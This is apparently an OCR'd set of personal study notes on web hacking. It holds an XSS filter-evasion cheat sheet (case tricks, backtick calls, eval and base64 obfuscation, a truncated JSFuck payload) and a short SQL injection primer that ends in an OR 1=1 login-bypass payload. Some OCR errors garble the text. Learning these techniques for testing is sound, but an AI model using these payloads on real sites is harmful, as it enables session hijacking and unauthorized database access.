 2.	<script>alert(l)</script>
•	If they are using Regx + filtering ‘script’ then you can use
o	<SCRIPT>alert(l)</ SCRIPT>
o	<ScRIpT>alert(l)</sCrIPT>
3.	If the alert(1) is block, then use
•	alert()
•	confirm()
•	prompt()
•	print()
4.	If the () are blacklisted, then use
•	`` (backticks)
o	alert``
o	alert`1`
o	print``
o	prompt``
o	confirm``
5.	If only pooping up functions not working, then
o	Only works inside java script.
•	eval(‘ale’+’rt’)
•	eval(‘pro’+’mpt’)
•	eval(‘pr’+’int’)
•	eval(‘conf’+’irm’) 
6.	If eval(’any’+’thing’) also blacklisted, then
•	<script> eval(atob(“<Base64 encoded>”))</script>
•	Examples:
•	'ale'+'rt' ==Base64== J2FsZScrJ3J0Jw==
o	<script>eval(atob(“J2FsZScrJ3J0Jw==”))</script>
7.	If eval, atob and other pooping up functions blacklisted
•	Go to JSFuck, put payload (alert(2)), Encode, copy the encoded code, put in between <script> </script>
o	Example: <script><encode></script>
o	<script>[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]][([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])</script>


 
*ATTACK*

SQL Injection | GitHub | Dorks List
•	A technique that attackers use to gain unauthorized access to a web application database by adding a string of malicious code to a database query.
•	Client Side (Front End) + Server Side (Backend) = Webapp
o	Client Side: HTML, CSS, Javascript
o	Server Side: PHR SQL, MYSQL
•	example.com/login
o	username: $username
o	password: $password
o	SELECT * FROM users WHERE username=$username AND password=$password
o	Database > Tables > columns > data
id	Username	Password
1.	Admin	admin
2.	John	Don123
o	AND I OR
	True AND True == True
	True AND False == False
	False AND True == False
	False AND False == False
	True OR True == True
	True OR False == True
	False OR True == True
	False OR False == False
o	Payloads:
	John” OR 1=1-- 
•	Here as OR condition one of value need to be true I.e 1=1 that mean it always 1 equal 1 means condition it true